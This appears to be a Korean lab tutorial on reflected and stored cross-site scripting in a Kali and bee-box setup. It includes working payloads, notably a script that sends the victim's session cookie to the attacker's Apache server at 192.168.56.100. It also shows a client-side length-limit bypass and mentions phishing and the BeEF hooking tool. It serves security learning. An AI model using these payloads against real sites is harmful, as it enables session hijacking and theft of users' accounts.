XSS란?
- 공격자가 악의적인 스크립트 코드를 웹 애플리케이션에 삽입한 후 웹 사용자의 웹 브라우저에서 해당 코드가 실행되게 만드는 공격임.
- 클라이언트 쪽을 공격함
- 세션쿠키를 탈취를 주목적으로 함
- 다양한 형태의 코드로 공격이 가능함
대표적으로 두 가지 공격기법이 있는데
1. Reflected XSS (반사형)
2. Stored XSS (저장형)
Reflected XSS
- <script>의 코드를 적절한 입력값 검증이 없다면 해당 코드로 사용자의 세션쿠키를 탈취당할 수 있는데 특징은
즉시 응답 메시지로 반사형태로 계속 알림이 뜬다는 뜻이다

실습

이름을 넣는 입력란이 있다.
위에는 <script> alert(1);</script> 코드를 집어넣을 것이다 alert() 함수는 웹페이지에 알림 창을 띄워주는 역할을 한다.
가끔씩 웹 사이트에 방문하면 알림 창이 뜨는데 이 기능을 구현해 주는 게 alert() 함수이다.
즉, 1을 알림 창으로 띄워서 <script>가 먹히는지 테스트해 보는 것이다.
<script>alert(1);</script>

이런 식으로 알림 창에 1이 출력되는 것을 확인할 수 있다.
Tip
- 폼이나 파라미터에 <script> alert(1);</script> 코드를 입력하여 XSS 취약점을 확인이 가능하다.
경우에 따라 우회 기법을 사용할 필요도 있다.
이번에는 쿠키를 추출할 수 있는 코드를 써볼 것이다 즉, 웹서버에 저장되어 있는 세션쿠키를 추출할 것이다.
<script>alert(document.cookie)</script>

이렇게 세션쿠키를 추출하였다.
위에 실습은 본인의 세션쿠키를 추출한 것이고 이제 공격자에게 피해자의 세션쿠키가 이동하도록 해볼 것이다.
일단 칼리리눅스가 (공격자) bee리눅스가(피해자)라고 가정하면
칼리리눅스에서 해줘야 하는 설정이 있는데
apache 서버를 생성해줘야 한다.
명령어는 다음과 같다
service apache2 start
명령어를 입력하고 나면 본인 ip에 브라우저에 입력하고 잘 생성되었는지 확인한다.

잘 생성된 것을 볼 수 있다.
다음은 로그파일을 생성합니다
명령어는 다음과 같습니다.
tail -f /var/log/apache2/access.log
tail이라는 명령어는 리눅스에서 로그 파일을 모니터링해 주는 기능이다.
여기서 로그(log)란?
- 웹에 접근하는 객체를 기록하는 역할을 하는데 위에 코드는 access.log를 사용하였다.

다음과 같이 모니터링할 수 있는 환경을 구성하였다.
테스트를 해보면

<script>document.location='http://192.168.56.100/cookie?'+document.cookie</script>
아래와 같은 코드를 삽입하면

아래와 같이 세션쿠키를 탈취한 것을 모니터링해 준다.
document.location을 이용하면 지정된 주소로 리다이렉션 해준다.
즉, 웹 브라우저는 공격자의 호스트로 접속하게 되는 것이다.
여기서 의문점은
과연 사용자(피해자)가 이런 위험한 코드를 직접 입력하진 않습니다. 사실상 불가능하죠 그래서 이를 이용한 것이 피싱입니다
클릭을 유도해서 XSS를 실행하게 하는 것입니다 사용자가 클릭을 할 시 XSS코드가 실행이 되고 세션쿠키를 탈취하는 간단한 시나리오가 나옵니다. 따라서 추가적으로 연계해서 XSS를 사용하는 방법이 더 크리티컬 하다.
버프스위트에

% 3C와 같은 문자들이 있는데 웹 브라우저에서는 일부 특수문자를 URL 인코딩으로 자동 변환하기 때문입니다.
막간의 용어
인코딩 : 간단하게 말하면 기계가 읽을 수 있는 코드
디코딩 : 기계가 이진법으로 문자를 만들어서 사람이 읽을 수 있게 만드는 코드라고 생각하면 됨
크로스사이트스크립팅 취약점이 존재하면, 공격자는 세션 탈취 이외에도 다양한 공격을 수행할 수 있음
비프 (BeEF)라는 프로그램을 사용 가능
- 여러 가지 공격들을 수행할 수 있게 하는 프로그램임 (후킹코드)
Stored XSS
- 스토어드 XSS는 리플렉티드와는 다르게 반사형이 아닌 저장형이다 과?
무슨 말이냐면 웹 서버에 저장해 뒀다가 실행되게 하는 것이다.
더 쉽게 말하면
예를 들어 사용자가 게시판 페이지에 들어갔다고 가정
글 쓴 사람의 내용이 궁금해서 눌렀는데 웹서버에 저장되어 있던 악성스크립트 XSS가 실행되면서 세션쿠키를 탈취하는 거임 반사형과는 개념이 좀 다르지만 공통점은 이 또한 피싱으로 사용자의 세션쿠키를 노린다는 것

실습
이번에도 tail명령어로 access.log를 이용해 모니터링하겠습니다.

이번에도 리플렉티드와 같은 코드를 사용하려고 하는데 더 이상 입력이 되지 않습니다. 이럴 때 해결법은 개발자 도구를 열어서
게시판 입력값을 늘리면 됩니다.

여기 보면 textarea에 최대 글자 수가 50으로 지정되어 있는데 이를 500으로 늘려주면 됩니다.
Tip
- 클라이언트 쪽에서 입력값을 제한하거나 검증하도록 구현된 인터페이스는 쉽게 우회할 수 있습니다.

실행해 보면

이런 식으로 게시판에 저장된 스크립트로 인해 세션쿠키를 탈취할 수 있는데 여기서 끝이 아니라 앞으로 이 방명록을 누르는 사용자 또한 세션쿠키를 공격자에게 탈취당할 수 있습니다.

방명록을 또 클릭하니 세션쿠키 탈취하는 게 추가하는 것을 볼 수 있음 (저장되어 있기에 가능)